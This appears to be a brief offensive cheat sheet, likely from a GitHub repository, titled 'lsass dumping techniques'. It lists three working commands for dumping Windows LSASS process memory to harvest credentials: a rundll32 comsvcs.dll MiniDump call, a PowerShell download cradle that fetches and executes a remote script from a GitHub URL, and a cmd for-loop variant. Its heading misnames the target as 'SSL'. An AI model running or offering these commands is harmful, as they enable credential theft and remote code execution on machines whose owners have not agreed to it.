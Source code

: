 ```yaml
---
title: lsass dumping techniques
author: i4
date: M11-02-2022
---
```

# Different SSL Dumping techniques

## COMSVCs 

```
rundll32.exe comsvcs.dll, MiniDump (Get-Process lsass).Id Temp\<NAME>.dmp full;Wait-Process -Id (Get-Process rundll32).id
```


## Run directly in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/sp00ks-git/PowerShell-Stuff/main/lsass-dump')
```

## With a for loop
```
for /f "tokens=1,2 delims= " ^%A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ^%B lsass.dmp full
```

